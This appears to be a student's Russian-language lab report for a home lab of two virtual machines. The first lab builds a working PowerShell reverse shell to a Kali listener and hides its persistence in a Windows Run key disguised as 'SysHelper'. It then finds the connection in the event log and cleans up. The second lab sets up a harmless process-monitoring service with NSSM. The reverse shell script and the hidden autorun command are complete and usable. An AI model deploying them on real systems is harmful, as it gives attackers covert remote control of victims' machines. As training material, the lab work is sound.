



# Лабораторная работа: Reverse Shell с закреплением в реестре Windows (Persistence)

## Используемое окружение
- **Атакующая машина:** Kali Linux (192.168.0.25, VirtualBox, режим Bridge)
- **Целевая машина:** Windows 11 (192.168.0.24, VirtualBox, режим Bridge)
- **Инструменты:** Netcat, PowerShell, редактор реестра Windows, Event Viewer

## 1. Написание PowerShell-скрипта для reverse shell
На целевой машине Windows создан скрипт `C:\ProgramData\rev.ps1`, который устанавливает TCP-соединение с Kali и передаёт управление.

```powershell
$ip = "192.168.0.25"
$port = 4444
$client = New-Object System.Net.Sockets.TCPClient($ip, $port)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$writer.AutoFlush = $true
$buffer = New-Object System.Byte[] 1024
while (($bytes = $stream.Read($buffer, 0, $buffer.Length)) -ne 0) {
    $cmd = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer, 0, $bytes)
    $output = (Invoke-Expression $cmd 2>&1 | Out-String)
    $prompt = "PS " + (Get-Location).Path + "> "
    $response = $output + $prompt
    $sendbyte = ([Text.Encoding]::ASCII).GetBytes($response)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```

## 2. Разрешение выполнения сценариев PowerShell
Была использована команда 
```powershell
Set-ExecutionPolicy Unrestricted -Scope CurrentUser -Force
```

## 3. Закрепляем в реестре
С помощью команды
```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SysHelper" /t REG_SZ /d "powershell.exe -WindowStyle Hidden -File C:\ProgramData\rev.ps1" /f
```

Проверяем добавление ключа
```powershell
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v SysHelper
```

Вывод
```text
SysHelper    REG_SZ    powershell.exe -WindowStyle Hidden -File C:\ProgramData\rev.ps1
```

## 4.  Запуск слушателя на Kali
На атакующей машине запущен Netcat в режиме прослушивания:
```bash
nc -lnvp 4444
```
Вывод после ребута Win машины
```bash
─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.0.25] from (UNKNOWN) [192.168.0.24] 49683
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::4d62:8503:b37f:40d9%5
   IPv4 Address. . . . . . . . . . . : 192.168.0.24
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.0.1
PS C:\Windows\System32> 

┌──(jetjoyred㉿kali)-[~]
└─$ nc -lnvp 4444 -s 192.168.0.25
listening on [192.168.0.25] 4444 ...
connect to [192.168.0.25] from (UNKNOWN) [192.168.0.24] 49682
whoami
winvm\jetjoyred
PS C:\WINDOWS\system32> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::4d62:8503:b37f:40d9%5
   IPv4 Address. . . . . . . . . . . : 192.168.0.24
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.0.1
PS C:\
```
Вывод был скопирован с двух терминалов с указанием конкретного адреса и без указания

## 5. Поиск события сетевого подключения в журналах Windows

Для выполнения задания политика была включена из PowerShell (администратор):

```powershell
auditpol /set /subcategory:"Filtering Platform Connection" /success:enable /failure:enable
```
Скриншот с событием ID 5156


## 6. Удаление следов (Cleanup)
Удалён ключ автозапуска из реестра:

```powershell
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v SysHelper /f 
```
Удален файл скрипта

```powershell
Remove-Item -Path "C:\ProgramData\rev.ps1" -Force
```

# Лабораторная работа: Создание службы мониторинга процессов (NSSM) на Windows

## 1. Скачивание и подготовка NSSM
NSSM позволяет запускать любой исполняемый файл или скрипт как службу Windows.
Скачан архив с официального сайта nssm.cc
Распакован в C:\nssm\


## 2. Создание PowerShell-скрипта мониторинга
Скрипт каждые 15 секунд записывает в лог-файл список активных процессов. Время работы — 5 минут.

**Путь:** `C:\Monitor\procmon.ps1`

```powershell
param([int]$DurationMinutes = 5)
$endTime = (Get-Date).AddMinutes($DurationMinutes)
$logFile = "C:\log.txt"
"--- Мониторинг запущен в $(Get-Date) ---" | Out-File $logFile -Encoding UTF8

while ((Get-Date) -lt $endTime) {
    $processes = Get-Process | Where-Object { $_.StartTime -ne $null } | Select-Object Id, Name, StartTime
    "--- [$(Get-Date -Format 'HH:mm:ss')] Активные процессы ---" | Out-File $logFile -Append -Encoding UTF8
    $processes | Out-File $logFile -Append -Encoding UTF8
    Start-Sleep -Seconds 15
}

"--- Мониторинг завершён в $(Get-Date) ---" | Out-File $logFile -Append -Encoding UTF8
```

## 3. Установка службы через NSSM
Из PowerShell (запущенного от имени администратора):

```powershell
cd C:\nssm\win64
.\nssm install ProcessMonitorService
```

В графическом окне NSSM указаны параметры:
- **Path:** `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
- **Startup directory:** `C:\Monitor`
- **Arguments:** `-ExecutionPolicy Bypass -File "C:\Monitor\procmon.ps1" -DurationMinutes 5`

Служба успешно установлена.

## 4. Запуск службы и проверка лога
```powershell
Start-Service ProcessMonitorService
```

Через 1 минуту проверено содержимое `C:\log.txt` — в файле присутствуют записи о процессах с интервалом 15 секунд.



**Вывод:** служба работает, скрипт выполняется корректно.

## 5. Остановка и удаление службы
```powershell
Stop-Service ProcessMonitorService
.\nssm remove ProcessMonitorService confirm
```

Служба удалена из системы.

## 6. Удаление созданных файлов
```powershell
Remove-Item -Path "C:\Monitor\procmon.ps1" -Force
Remove-Item -Path "C:\log.txt" -Force
```

## P.S. Для справки
```text
C:\Windows\System32>cd C:\nssm\win64

C:\nssm\win64>nssm install ProcessMonitorService
Service "ProcessMonitorService" installed successfully!

C:\nssm\win64>nssm start ProcessMonitorService
ProcessMonitorService: START: The operation completed successfully.

C:\nssm\win64>nssm stop ProcessMonitorService
ProcessMonitorService: STOP: The operation completed successfully.

C:\nssm\win64>.\nssm remove ProcessMonitorService confirm
Service "ProcessMonitorService" removed successfully!

C:\nssm\win64>
```
